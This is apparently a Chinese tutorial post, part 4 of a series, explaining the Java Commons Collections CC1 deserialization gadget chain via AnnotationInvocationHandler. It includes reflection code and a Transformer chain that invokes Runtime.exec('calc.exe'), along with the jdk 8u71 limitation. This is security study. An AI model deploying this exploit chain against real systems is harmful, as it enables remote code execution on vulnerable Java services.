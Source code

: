 ```yaml
---
created: '21/11/06'
title: 反序列化篇4
tags:
  - java
  - java安全
---
```

# 反序列化篇4
## CC1
反序列化篇3给我们留下了几个问题，上篇的极简demo并不能编写成反序列化的poc，问题主要是: 我们依靠HashMap.put方法来触发我们的链，但是我们没办法在反序列化时手工执行，所以我们在实际反序列化时需要找到一个类，其反序列化的readObject逻辑中有类似的写入操作。

### AnnotationInvocationHandler
这个类就是我们要寻找的类，其readObject方法代码如下(jdk8u71之前):
```java
private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        s.defaultReadObject();

        // Check to make sure that types have not evolved incompatibly

        AnnotationType annotationType = null;
        try {
            annotationType = AnnotationType.getInstance(type);
        } catch(IllegalArgumentException e) {
            // Class is no longer an annotation type; time to punch out
            throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map<String, Class<?>> memberTypes = annotationType.memberTypes();

        // If there are annotation members without values, that
        // situation is handled by the invoke method.
        for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
            String name = memberValue.getKey();
            Class<?> memberType = memberTypes.get(name);
            if (memberType != null) {  // i.e. member still exists
                Object value = memberValue.getValue();
                if (!(memberType.isInstance(value) ||
                      value instanceof ExceptionProxy)) {
                    memberValue.setValue(
                        new AnnotationTypeMismatchExceptionProxy(
                            value.getClass() + "[" + value + "]").setMember(
                                annotationType.members().get(name)));
                }
            }
        }
    }
```
核心逻辑就是`Map.Entry<String, Object> memberValue : memberValues.entrySet()`和 `memberValue.setValue(...)`。
> memberValues就是反序列化后得到的Map，也是经过了TransformedMap修饰的对象，这里遍历了它的所有元素，并依次设置值。在调用setValue设置值的时候就会触发TransformedMap里注册的 Transform，进而执行我们为其精心设计的任意代码。

所以我们最后需要反序列化的就是这个`AnnotationInvocationHandler`，由于此类是JDK内部类，因此我们需要使用反射来获取该类实例。
AnnotationInvocationHandler类的构造函数有两个参数，第一个参数是一个Annotation类，第二个是参数就是前面构造的Map。这里第一个参数要使用什么Annotation类呢？仔细阅读源码发现，我们需要使得`memberType!=null`成立，所以第一个参数需要满足以下两个条件:
1. 必须是 Annotation的子类，且其中必须含有至少一个方法，假设方法名是X
2. 被TransformedMap.decorate修饰的Map中必须有一个键名为X的元素

所以我们最终选择了Retention类，其具有一个value方法，后续我们需要往HashMap中放入一个key为value的值。

```java
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
construct.setAccessible(true);
Object obj = construct.newInstance(Retention.class, outerMap);
```

### 反射构造java.Runtime
当我们将代码修改好之后，会发现依然无法将上述代码中的obj序列化，原因是`java.lang.Runtime`是没办法序列化的，我们需要使用反射技术来最终拿到该类:
```java
Method f = Runtime.class.getMethod("getRuntime");
Runtime r = (Runtime) f.invoke(null);
r.exec("calc.exe");
```
所以我们需要修改Transformer，代码如下:
```java
Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
        };
```
> 其实和demo最大的区别就是将Runtime.getRuntime()换成了Runtime.class，前者是一个 java.lang.Runtime对象，后者是一个java.lang.Class对象。Class类有实现Serializable接口，所以可以被序列化。

### 高版本限制
我们这里的payload是无法在jdk>=8u71上触发的，这是由于`AnnotationInvokeHandle.readObject`在此版本做了修改:
![](https://gitee.com/guuest/images/raw/master/img/20211106152805.png)
具体的解决办法在下一篇文章中。

### 总结
整条链的调用逻辑为:
```
AnnotationInvocationHandler.readObject() 
  HashMap.setValue()
    ChainedTransformer.transform()
      ConstantTransformer.transform() // 获取Runtime.class
      InvokerTransformer.transform()   // 获取Runtime.getRuntime
      InvokerTransformer.transform()   // 获取Runtime实例
      InvokerTransformer.transform()   // 调用exec方法触发rce
```
